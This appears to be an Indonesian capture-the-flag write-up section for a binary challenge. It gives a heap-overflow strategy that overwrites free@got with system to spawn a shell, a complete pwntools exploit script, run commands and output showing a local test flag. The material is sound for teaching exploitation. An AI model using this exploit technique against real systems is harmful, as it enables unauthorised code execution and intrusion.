

# THE FORGOTTEN STATE — Eksploitasi

[← Overview](42-the-forgotten-state.md) · [Index](index.md)

## 3.1 Strategi

1. Buat `rec0`..`rec3` (masing-masing data 0x20 byte; `rec2` berisi `"/bin/sh\0"`).
2. `release(rec3)` → `free@got` resolved (dan chunk rec3 masuk tcache).
3. `edit(rec0, 0x50)` → overflow ke `rec1`: `rec1->len=8`, `rec1->data=free@got`.
4. `view(rec1, 8)` → leak alamat `free` → `libc_base`.
5. `edit(rec1, p64(system))` → `free@got = system`.
6. `release(rec2)` → `free(rec2->data)` = `free("/bin/sh")` = `system("/bin/sh")`.
7. Shell → `cat flag.txt`.

## 3.2 Script lengkap

Tersimpan di `writeups/assets/the-forgotten-state/exploit.py`:

```python
create(p, b'rec0', b'A'*0x20)
create(p, b'rec1', b'B'*0x20)
create(p, b'rec2', b'/bin/sh\x00')
create(p, b'rec3', b'C'*0x20)
release(p, 3)                       # resolve free@got

ov  = b'A'*0x28 + p64(0x31) + b'X'*0x10 + p32(8)+p32(1) + p64(FREE_GOT)
edit(p, 0, ov)                      # heap overflow -> rec1 fields

free_addr = u64(view(p, 1, 8))
libc_base = free_addr - libc.symbols['free']
edit(p, 1, p64(libc_base + libc.symbols['system']))   # free@got = system

release(p, 2)                       # free("/bin/sh") -> system
p.sendline(b'cat flag.txt; echo END_PWN')
```

Menjalankan:

```bash
cd writeups/assets/the-forgotten-state
echo 'NFX{LOCAL_TEST_FLAG_STATE}' > flag.txt
python3 exploit.py | tee 03-exploit-run.txt
```

## 3.3 Output asli

```text
[*] Starting local process '.../ld-linux-x86-64.so.2'
[+] free=0x75d2452b5360 libc=0x75d245200000 system=0x75d24525c2e0
[+] Receiving all data: Done (35B)
NFX{LOCAL_TEST_FLAG_STATE}
END_PWN
```

Fixture lokal berisi `NFX{LOCAL_TEST_FLAG_STATE}`; flag kompetisi ada di bagian 4.

### Evidence langkah ini



*Terminal evidence — `03-exploit-run.txt` (arsip transkrip sesi solve).*
